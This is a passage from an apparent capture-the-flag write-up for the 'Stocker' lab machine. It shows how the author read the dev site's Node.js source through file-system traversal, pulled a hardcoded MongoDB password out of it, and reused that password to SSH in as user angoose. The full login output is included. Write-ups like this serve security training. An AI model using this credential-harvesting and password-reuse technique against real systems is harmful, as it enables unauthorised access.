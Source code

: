 - I then found the index.js for the dev subdomain by traversing the file system, I found that this contiins the mongoose credentials

```js

const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(
session({
secret: randomBytes(32).toString("hex"),
resave: false,
saveUninitialized: true,
store: MongoStore.create({
mongoUrl: dbURI,
}),
})
);
app.use("/static", express.static(__dirname + "/assets"));
app.get("/", (req, res) => {
return res.redirect("/login");
});
app.get("/api/products", async (req, res) => {
if (!req.session.user) return res.json([]);
const products = await mongoose.model("Product").find();
return res.json(products);
});
app.get("/login", (req, res) => {
if (req.session.user) return res.redirect("/stock
```

Based on the information I confirmed that the database is mongodb and that the database password is as follows- IHeardPassphrasesArePrettySecure

I then tried to ssh into the machine using angoose and IHeardPassphrasesArePrettySecure. 

This proved to be succesful - 
```shell
ssh angoose@stocker.htb
The authenticity of host 'stocker.htb (10.10.11.196)' can't be established.
ED25519 key fingerprint is SHA256:jqYjSiavS/WjCMCrDzjEo7AcpCFS07X3OLtbGHo/7LQ.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'stocker.htb' (ED25519) to the list of known hosts.
angoose@stocker.htb's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

angoose@stocker:~$ 
```
